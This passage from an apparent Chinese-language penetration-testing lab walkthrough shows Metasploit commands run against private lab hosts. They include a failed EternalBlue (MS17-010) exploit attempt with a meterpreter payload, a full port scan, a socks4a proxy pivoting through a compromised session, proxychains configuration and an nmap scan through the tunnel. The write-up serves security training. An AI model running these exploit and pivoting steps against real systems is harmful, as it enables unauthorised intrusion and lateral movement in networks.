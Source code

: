 漏洞利用失败。为了加强效果节目效果专门搞了个 XP

```
use exploit/windows/smb/ms17\_010\_eternalblue
set rhost 192.168.75.132
set payload windows/meterpreter/bind\_tcp 
run
```

漏洞依然利用失败，放弃。

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0xHrKcp2Mu1icZ9gXaw7mCgOdTHrq7vHrxiaq45DMEbeCeUISwUhlN1IQ/640?wx_fmt=png)

**MSF 端口扫描模块**  

```
#对75网段进行全端口扫描
use auxiliary/scanner/portscan/tcp
set rhosts 192.168.75.131
set ports 1-65535
setg threads 50
run
```

这个端口扫描模块耗时比较长且效果远不如 nmap

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0wBCcWvbIJyoLGXyZA1vFcjiaTq8qUibUxDjkV1pjIWpmYjgbk5Rlygqg/640?wx_fmt=png)

⑥本地设置 socket 代理，目的是让 MSF 以外的工具也能与目标内网连接。前面添加了路由，使 msf 中的所有模块可以用 meterpreter 作为代理访问到 192.168.75.x 段。现在开启 sockets4 代理，然后配合 proxychains 盘活 kali 里面除 MSF 以外的其他工具。利用挂起的会话建立代理：  

```
use auxiliary/server/socks4a 
set srvhost 127.0.0.1
set rport 1080 #注意避免端口冲突
run
```

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS07dFkRsfuy3iaT4oPdgnCibB8hYCe1EUGGiclRNSsnsibpH1zL1omRribzqQ/640?wx_fmt=png)

查看端口，成功启用代理：

![](https://mmbiz.qpic.cn/mmbiz_png/flBFrCh5pNbL0D0ibWbx5icuXgofmKicgS0dsIZquxjIDAl5WFI2vugQ4YbqwBqmmUnKtOCXJtvByRpjek0SWEQ4A/640?wx_fmt=png)

配置代理  

```
vi /etc/proxychains.conf
socks4  127.0.0.1 1080
```

配置完成后即可使用 proxychains 配合其他工具对目标进行下一步渗透。socks4 版本协议不支持 udp 和 icmp 协议，所以使用 nmap 要加上 - sT -Pn 即使用 tcp 协议且不使用 icmp 协议。

**Nmap 扫描**

```
#nmap扫描
proxychains nmap -sT -sV -Pn -n -p 1-3389 192.168.75.131
```
